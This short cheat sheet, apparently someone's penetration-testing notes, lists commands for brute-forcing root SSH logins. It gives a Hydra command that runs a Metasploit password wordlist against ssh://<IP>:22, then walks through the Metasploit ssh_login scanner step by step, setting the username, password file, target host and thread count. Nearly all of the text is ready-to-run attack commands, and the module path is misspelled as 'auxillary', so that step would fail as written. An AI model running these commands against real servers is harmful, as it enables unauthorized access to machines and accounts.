 
Hydra

`hydra -l root -P /usr/share/wordlists/metasploit/unix\ passwords.txt ssh://<IP>:22 -t 4 -V`

Metasploit
`msfconsole`

`search ssh`
note: look for auxillary

`use auxillary/scanner/ssh/ssh_login`

`options`

`set username root`

`set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt`

`set rhosts <IP>`

`options`

`set threads 10`

`set verbose true`

`run`